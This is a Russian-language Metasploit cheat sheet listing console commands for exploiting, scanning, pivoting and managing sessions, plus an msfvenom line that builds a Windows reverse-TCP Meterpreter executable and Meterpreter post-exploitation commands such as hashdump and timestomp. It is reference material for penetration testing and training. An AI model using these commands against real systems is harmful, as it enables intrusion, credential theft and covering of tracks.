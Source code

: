 #### Metasploit:
Поиск модуля:
* msf > search [regex]
Укажите и используйте эксплойт:
* Информация msf6> info
* msf > use exploit/[ExploitPath]
Укажите полезную нагрузку для использования:

* msf > set PAYLOAD [PayloadPath]
Показать параметры для текущих модулей:

* msf > show options
Установить параметры:

* msf > set [Option] [Value]
Запустить эксплойт:

* msf > exploit 
Полезные вспомогательные модули
Сканер портов:

* msf > use auxiliary/scanner/portscan/tcp
* msf > set RHOSTS 10.10.10.0/24
* msf > run
Перечисление DNS:

* msf > use auxiliary/gather/dns_enum
* msf > set DOMAIN target.tgt
* msf > run
FTP Сервер:

* msf > use auxiliary/server/ftp
* msf > set FTPROOT /tmp/ftproot
* msf > run
Proxy Сервер:

* msf > use auxiliary/server/socks4
* msf > run 
* msfvenom :

#### Инструмент msfvenom можно использовать для генерации полезных нагрузок Metasploit (например, Meterpreter) в виде отдельных файлов и, при необходимости, для их кодирования.
Этот инструмент заменяет прежние инструменты msfpayload и msfencode.

Запустите с ‘-l payloads’, чтобы получить список полезных нагрузок.

* $ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
Пример :

Полезная нагрузка Reverse Meterpreter в виде исполняемого файла и перенаправленная в файл:

* $ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=10.1.1.1
LPORT=4444 > met.exe
Metasploit Meterpreter
Базовые команды:

* ? / help: вывод сводной информации о командах
* exit / quit: выход из сеанса Meterpreter
* sysinfo: показать имя системы и тип ОС
* shutdown / reboo: не требует пояснений
Команды файловой системы:
* cd: изменить каталог
* lcd: Изменить каталог на локальном (атакующем) компьютере
* pwd / getwd: Показать текущий рабочий каталог
* ls: показать содержимое каталога
* cat: отображать содержимое файла на экране
* download / upload: перемещение файлов на / с целевого компьютера
* mkdir / rmdir: создать / удалить каталог
* edit: открыть файл в редакторе по умолчанию (обычно vi)
Команды процесса:
* getpid: Показать идентификатор процесса, внутри которого работает Meterpreter.
* getuid: Показать идентификатор пользователя, с которым работает Meterpreter.
* ps: Показать список процессов.
* kill: завершить процесс по его идентификатору.
* execute: запустить заданную программу с правами процесса, в который загружен Meterpreter.
* migrate: переход к указанному идентификатору процесса назначения:
Целевой процесс должен иметь такие же или меньшие привилегии
Целевой процесс может быть более стабильным
Находясь внутри процесса, может получить доступ к любым файлам, для которых процесс заблокирован
Сетевые команды:

* ipconfig: Показать информацию о сетевом интерфейсе
* portfwd: пересылка пакетов через сеанс TCP
* route: управление / просмотр таблицы маршрутизации системы
Разные команды:

* idletime: отображение времени, в течение которого GUI целевой машины простаивал.
* uictl [enable/disable] [keyboard/mouse]: включить / отключить мышь или клавиатуру целевой машины.
* screenshot: Сохранить как изображение снимок экрана целевой машины.
 

Дополнительные модули:

* use [module]: загрузить указанный модуль
Пример:
* use priv: загрузить модуль priv

* hashdump: сбросить хэши из коробки
* timestomp: Изменить временные метки файла NTFS
Управление сессиями

Многократная эксплуатация:

Запустите эксплойт, ожидая одну сессию, которая сразу же станет фоновой:

* msf > exploit -z
Запустите эксплойт в фоновом режиме, ожидая одну или несколько сессий, которые сразу же станут фоновыми:

* msf > exploit –j
Перечислите все текущие задания (обычно используют слушателей):

* msf > jobs –l
Убить задание

* msf > jobs –k [JobID]
Несколько сессий:

Перечислите все фоновые сессии:

* msf > sessions -l
Взаимодействовать с фоновым сеансом:

* msf > session -i [SessionID]
Предыстория текущего интерактивного сеанса:

meterpreter > <Ctrl+Z>
или
meterpreter > background
Маршрутизация через сессии:

Все модули (эксплойты / post / aux) против целевой маски подсети будут поворачиваться в течение этого сеанса.

* msf > route add [Subnet to Route To]
[Subnet Netmask] [SessionID]

#### В Metasploit наиболее часто используемые переменные LHOST, RHOST и RPORT.

* LHOST (Local Host) обозначает IP-адрес атакующей машины. Эта переменная обычно используется для установки обратного соединения с вашей машиной после успешной атаки. Например, при эксплуатации уязвимости на целевой системе, LHOST указывает IP-адрес вашей машины, на который будет установлено соединение после выполнения атаки.
* RHOST (Remote Host) обозначает IP-адрес целевой системы, которую вы планируете атаковать или эксплуатировать. При использовании модулей Metasploit, вы должны указать RHOST в качестве целевой системы, чтобы фреймворк знал, на какую систему направить атаку или эксплойт.
* SRVHOST (Server Host) определяет IP-адрес машины, на которой будет запущен сервер для загрузки дополнительных элементов пейлоада. Когда вы используете дополнительные пейлоады, такие как вредоносные файлы или сценарии, SRVHOST указывает, к какому IP-адресу фреймворк должен подключиться для загрузки этих элементов.
* RPORT (Remote Port) обозначает порт на целевой системе, на который будет направлена атака или эксплойт. Указывая значение RPORT, вы определяете конкретный порт, на котором Metasploit будет взаимодействовать с целевой системой в процессе выполнения эксплойта. Это позволяет фреймворку установить соединение с целевой системой через определенный порт и использовать его для эксплуатации уязвимостей или выполнения атак.
